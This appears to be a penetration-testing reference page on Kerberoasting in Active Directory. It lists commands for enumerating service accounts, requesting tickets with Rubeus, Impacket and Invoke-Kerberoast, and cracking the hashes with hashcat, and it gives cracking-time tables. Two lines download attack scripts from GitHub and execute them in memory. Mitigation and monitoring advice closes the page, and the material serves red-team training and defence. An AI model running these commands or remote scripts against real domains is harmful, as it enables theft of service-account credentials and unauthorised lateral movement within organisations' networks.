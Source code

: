 ```yaml
---
description: https://attack.mitre.org/techniques/T1558/003/
---
```


# Kerberoasting

**ATT\&CK ID:** [T1558.003](https://attack.mitre.org/techniques/T1558/003/)

**Permissions Required:** <mark style="color:green;">**Valid Domain Account**</mark> | <mark style="color:orange;">**Ability to sniff domain traffic**</mark>

**Description**

Adversaries may abuse a valid Kerberos ticket-granting ticket (TGT) or sniff network traffic to obtain a ticket-granting service (TGS) ticket that may be vulnerable to Brute Force.

Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plain text credentials.

Cracked hashes may enable Persistence, Privilege Escalation, and Lateral Movement via access to Valid Accounts.

[\[Source\]](https://attack.mitre.org/techniques/T1558/003/)

## Enumeration

{% tabs %}
{% tab title="Windows" %}
CMD

```batch
# Gets all SPNs, Includes machine account SPNs
setspn -T [Domain] -Q */*
```

Powerview

```powershell
Get-DomainUser -SPN | Select SamAccountName,DisplayName,ServicePrincipalName
```

Get-SPNs

{% code overflow="wrap" %}
```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/RedTeam-Pentest-Tools/main/Kerberoasting/Get-SPNs.ps1")
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Linux" %}
Impacket&#x20;

```python
GetUserSPNs.py [Domain]/[User]:<Password> -dc-ip [IP] -request
```
{% endtab %}
{% endtabs %}



## Exploitation

{% tabs %}
{% tab title="Windows" %}
Rubeus (Binary)

Documentation: [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)

```powershell
# Kerberoast all users in Domain and output to file
Rubeus.exe kerberoast /simple /outfile:C:\Temp\Kerbhashes.txt

# Kerberoast all users in alternative Domain
Rubeus.exe kerberoast /nowrap /domain:[Domain]

# Only kerberoast RC4 compatible types
Rubeus.exe kerberoast /nowrap /rc4opsec

# Only kerberoast AES compatible types
Rubeus.exe kerberoast /nowrap /aes

# Specific users
Rubeus.exe kerberoast /user:[User] /nowrap

# List statistics about found Kerberoastable accounts (Quiet)
Rubeus.exe kerberoast /stats
```

Rubeus (PowerShell)

```powershell
# Kerberoast all users in Domain and output to file
Invoke-Rubeus -Command "kerberoast /simple /outfile:C:\Temp\Kerbhashes.txt"

# Kerberoast all users in alternative Domain
Invoke-Rubeus -Command "kerberoast /nowrap /domain:[Domain]"

# Only kerberoast RC4 compatible types
Invoke-Rubeus -Command "kerberoast /nowrap /rc4opsec"

# Only kerberoast AES compatible types
Invoke-Rubeus -Command "kerberoast /nowrap /aes"

# Specific users
Invoke-Rubeus -Command "kerberoast /user:[User] /nowrap"

# List statistics about found Kerberoastable accounts (Quiet)
Invoke-Rubeus -Command "kerberoast /stats"

```

Invoke-Kerberoast

{% hint style="warning" %}
The hashes produced for type 18 and type 17 are not calculated correctly in this script and will not crack. Use Rubeus instead if you need to obtain type 18 or 17 hashes.
{% endhint %}

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX(IWR https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1)
</strong>
# Standard Run
Invoke-Kerberoast | FL

# Dump only hashes in a file
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty Hash | Out-File "[Path]" -Encoding "ASCII"
</code></pre>
{% endtab %}

{% tab title="Linux" %}
Impacket

```python
GetUserSPNs.py [Domain]/[User]:<Password> -dc-ip [IP] -request
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

## Hash Cracking

Good list for cracking: [https://gist.github.com/The-Viper-One/a1ee60d8b3607807cc387d794e809f0b](https://gist.github.com/The-Viper-One/a1ee60d8b3607807cc387d794e809f0b)

```bash
hashcat -m 13100 -a 0 -O hashes.txt rockyou.txt -r rules.rule

etype           Value        Hashcat mode
AES128           17            19600
AES256           18            19700
RC4              23            13100
```

### Cracking time between RC4 and AES256 (Dictionary)

<table><thead><tr><th width="154">GPU</th><th>Wordlist</th><th width="87">Rule</th><th>Attempts</th><th width="146">AES256 Time</th><th>RC4 Time</th></tr></thead><tbody><tr><td>GTX 980</td><td>Rockyou</td><td>Best64</td><td>1 Billion</td><td>1 hour, 22 mins</td><td>9 Seconds</td></tr><tr><td>RTX 3090 x 2 + RTX3070</td><td>Rockyou</td><td>Best64</td><td>1 Billion</td><td>7 Minutes, 13 Seconds</td><td>Instant</td></tr><tr><td>GTX 980</td><td>rockyou2021</td><td>Best64</td><td>651 Billion</td><td>36 Days</td><td>1 Hour, 56 minutes</td></tr><tr><td>RTX 3090 x 2 + RTX3070</td><td>rockyou2021</td><td>Best64</td><td>651 Billion</td><td>3 Days, 2 hours</td><td>4 mins, 50 seconds</td></tr></tbody></table>

### Cracking time between RC4 and AES256 (bruteforce)

<table><thead><tr><th width="250">GPU</th><th width="167.33333333333331">AES256 Time</th><th width="176">RC4 Time</th><th>Pass Length</th></tr></thead><tbody><tr><td>GTX 980</td><td>Basically forever</td><td>173 years, 22 days</td><td>9</td></tr><tr><td>RTX 3090 x 2 + RTX3070</td><td>Basically forever</td><td>6 years, 25 days</td><td>9</td></tr></tbody></table>



## Mitigation

1. Maintain service account passwords with a minimum length of 25 characters and ensure they are generated using a completely random process.
2. Implement regular password rotations for service accounts to enhance security.
3. Ensure service accounts have minimal permissions within the domain
4. Enforce the usage of AES256 encryption instead of RC4 for Kerberos authentication.
5. Ensure that your Key Distribution Center (KDC) is running at least Windows Server 2019. Older server versions may default to using RC4 encryption when an encryption downgrade request is initiated.
6. Whenever feasible, leverage Group Managed Service Accounts (GMSA) for service account management.

## Monitoring

Regularly review Windows Event Logs, specifically the Security event log. Look for Event ID 4769 (Kerberos service ticket requests) that indicate service ticket requests for accounts. Unusual or suspicious patterns should be investigated.

Deploy honeytokens or honeyaccounts, which are fake accounts or credentials that are monitored. If these are accessed, it could indicate an attacker attempting to perform kerberoasting based attack.

Monitor for LDAP queries which may be used to discover accounts with SPNs. This is often performed by adversaries to perform initial discovery:&#x20;

```
(servicePrincipalName=*)
```

## References

* [https://adsecurity.org/?p=3458](https://adsecurity.org/?p=3458)
* [https://redsiege.com/tools-techniques/2020/10/detecting-kerberoasting/](https://redsiege.com/tools-techniques/2020/10/detecting-kerberoasting/)
